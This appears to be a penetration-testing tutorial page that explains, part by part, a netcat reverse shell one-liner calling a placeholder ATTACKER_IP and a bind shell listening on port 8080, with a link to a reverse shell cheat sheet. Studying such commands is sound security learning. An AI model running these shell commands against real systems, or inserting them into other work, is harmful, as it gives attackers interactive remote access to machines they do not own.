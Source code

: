 ### Links


- Reverse shell cheat sheet: [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Reverse shell

### Gaining access explained:


All together: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

- rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
    
- mkfifo /tmp/f - This command creates a named pipe, or FIFO (first-in, first-out), at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
    
- cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
    
- | bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring that error messages are sent back to the attacker.
    
- | nc ATTACKER_IP ATTACKER_PORT >/tmp/f - This part pipes the shell's output through nc (Netcat) to the attacker's IP address (ATTACKER_IP) on the attacker's port (ATTACKER_PORT).
    
- > /tmp/f -This final part sends the output of the commands back into the named pipe, allowing for bi-directional communication.
    

### Bind shell


All together: `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

- rm -f /tmp/f - This command removes any existing named pipe file located at /tmp/f/. This ensures that the script can create a new named pipe without conflicts.
    
- mkfifo /tmp/f - This command creates a named pipe, or FIFO, at /tmp/f. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.
    
- cat /tmp/f - This command reads data from the named pipe. It waits for input that can be sent through the pipe.
    
- | bash -i 2>&1 - The output of cat is piped to a shell instance (bash -i), which allows the attacker to execute commands interactively. The 2>&1 redirects standard error to standard output, ensuring error messages are returned to the attacker.
    
- | nc -l 0.0.0.0 8080 - Starts Netcat in listen mode (-l) on all interfaces (0.0.0.0) and port 8080. The shell will be exposed to the attacker once they connect to this port.
    
- > /tmp/f This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.
    
